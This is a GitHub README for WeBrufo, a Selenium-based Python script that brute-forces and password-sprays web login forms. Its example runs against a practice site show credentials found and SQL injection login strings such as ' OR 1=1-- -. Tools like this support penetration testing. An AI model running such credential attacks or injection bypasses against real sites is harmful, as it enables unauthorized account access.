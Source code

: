 # WeBrufo (WEb BRUte-FOrcer)

## Table of Contents

* [Introduction](#Introduction)
* [Dependencies](#Dependencies)
* [Usage](#Usage)



## Introduction
A simple script to bruteforce web forms. Uses CSS selector to locate the inputs and perform bruteforce. Both credential bruteforce and spraying can be performed using this script. The script is inspired from <a href="https://github.com/maximousblk/callow">Callow</a>. This script works on <b>most</b> of the web forms with any number of inputs, provided the input css selector are passed in the argument. 

And as for the name, I was too lazy to think and come up with some cool name...

## Dependencies
The script primarily requires python (obviously) and Selenium to start a headless browser session and perform the bruteforce. Can be installed using  
``` python
pip install selenium
```
## Usage
```bash
    __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
usage: webrufo.py [-h] [-p PARAMS [PARAMS ...]] [-c CONST [CONST ...]] [--count COUNT]
                  [--submit SUBMIT] [--resume] [-u URL] [-d]

Bruteforce web form fields.

options:
  -h, --help            show this help message and exit
  -p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                        HTTP parameters -p '#username'=username.txt '#password'=password.txt
  -c CONST [CONST ...], --const CONST [CONST ...]
                        Constant parameters. Syntax same as for --params. Useful for Null payload
                        bruteforce/Password spraying etc.
  --count COUNT         Count of null payloads. To be used when only constant parameters are
                        passed. Usefull for null payload bruteforce.
  --submit SUBMIT       Optional argument to pass CSS selector for submit button
  --resume              Optional parameter to continue even after getting valid credentials
  -u URL, --url URL     Target URL
  -d, --debug           Print debug information
```


The basic command to run the script is
```bash
/webrufo> python webrufo.py -u http://testphp.vulnweb.com/login.php -p '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(1) > td:nth-child(2) > input[type=text]'::file.txt '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(2) > td:nth-child(2) > input[type=password]'::file.txt --resume

     __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
Initiating bruteforce attack
Tried: ['test', 'test']                           
Bruteforce successful. Credential combination: ['test', 'test']
Tried: ["' OR 1=1-- -", "' OR 1=1-- -"]                         
Bruteforce successful. Credential combination: ["' OR 1=1-- -", "' OR 1=1-- -"]
Tried: ['azureuser', 'azureuser']                                 
Attack completed!!
```

The script usage with constant parameters are:
```bash
/webrufo> python webrufo.py -u http://testphp.vulnweb.com/login.php -p '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(1) > td:nth-child(2) > input[type=text]'::file.txt -c '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(2) > td:nth-child(2) > input[type=password]'::testpassword --resume

     __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
Initiating bruteforce attack
Tried: ["' OR 1=1-- -", 'testpassword']                         
Bruteforce successful. Credential combination: ["' OR 1=1-- -", 'testpassword']
Tried: ['azureuser', 'testpassword']                             
Attack completed!!
```

